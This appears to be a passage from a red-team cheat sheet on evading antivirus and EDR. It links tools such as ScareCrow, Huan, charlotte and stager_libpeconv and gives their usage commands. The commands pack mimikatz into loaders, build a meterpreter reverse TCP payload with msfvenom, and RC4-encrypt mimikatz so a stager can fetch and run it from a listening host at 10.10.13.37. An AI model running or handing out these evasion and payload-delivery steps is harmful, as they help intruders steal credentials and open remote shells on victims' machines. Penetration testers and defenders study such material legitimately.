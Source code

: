 * [https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/](https://klezvirus.github.io/RedTeaming/AV_Evasion/CodeExeNewDotNet/)
* [https://github.com/klezVirus/inceptor](https://github.com/klezVirus/inceptor)



### ScareCrow

* [https://github.com/optiv/ScareCrow](https://github.com/optiv/ScareCrow)
* [https://www.grahamhelton.com/blog/scarecrow/](https://www.grahamhelton.com/blog/scarecrow/)
* [https://adamsvoboda.net/evading-edr-with-scarecrow/](https://adamsvoboda.net/evading-edr-with-scarecrow/)



### Huan

* [https://github.com/frkngksl/Huan](https://github.com/frkngksl/Huan)

```
Cmd > .\Huan.exe mimikatz.exe mimiLoader.exe
Cmd > .\mimiLoader.exe
```



### charlotte

* [https://github.com/9emin1/charlotte](https://github.com/9emin1/charlotte)
* [https://github.com/cepxeo/dll4shell](https://github.com/cepxeo/dll4shell)

```
$ sudo apt install 'mingw-w64*' -y
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw > beacon.bin
$ python charlotte.py
Cmd > rundll32.exe charlotte.dll, <XOR_KEY>
```



### MeterPwrShell

* [https://github.com/GetRektBoy724/MeterPwrShell/releases](https://github.com/GetRektBoy724/MeterPwrShell/releases)
* [https://raikia.com/tool-powershell-encoder/](https://raikia.com/tool-powershell-encoder/)

```
$ sudo ./MeterPwrShell2Kalix64 -c noaptupdate
```



### stager_libpeconv

- [https://github.com/tothi/stager_libpeconv](https://github.com/tothi/stager_libpeconv)
- [https://github.com/hasherezade/libpeconv](https://github.com/hasherezade/libpeconv)

```
$ git clone --recurse-submodules https://github.com/tothi/stager_libpeconv && cd stager_libpeconv
$ openssl enc -rc4 -in mimikatz.exe -K `echo -n '1234567890123456' | xxd -p` -nosalt -out mimikatz.rc4
$ make stager IMPLANT_IP=10.10.13.37 IMPLANT_PORT=1337 RC4_KEY=1234567890123456
$ ./socket_binary_server.py mimikatz.rc4 10.10.13.37 1337
Cmd > dist\stager.exe
```
